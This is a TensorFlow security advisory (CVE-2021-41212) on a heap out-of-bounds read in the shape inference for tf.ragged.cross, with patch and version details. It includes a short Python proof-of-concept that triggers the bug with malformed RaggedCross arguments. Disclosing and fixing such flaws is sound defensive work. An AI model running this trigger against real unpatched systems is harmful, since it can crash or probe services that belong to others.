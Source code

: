 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-183.md
## TFSA-2021-183: Heap OOB read in `tf.ragged.cross`

### CVE Number
CVE-2021-41212

### Impact
The [shape inference code for `tf.ragged.cross`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/ragged_array_ops.cc#L64) can trigger a read outside of bounds of heap allocated array:

```python
import tensorflow as tf

@tf.function
def test():
  y = tf.raw_ops.RaggedCross(ragged_values=[],
                             ragged_row_splits=[],
                             sparse_indices=[[5]],
                             sparse_values=[],
                             sparse_shape=[5],
                             dense_inputs=[['a']],
                             input_order='RD',
                             hashed_output=False,
                             num_buckets=5,
                             hash_key=2,
                             out_values_type=tf.string,
                             out_row_splits_type=tf.int64)
  return y

test()
```

### Patches
We have patched the issue in GitHub commit [fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8](https://github.com/tensorflow/tensorflow/commit/fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
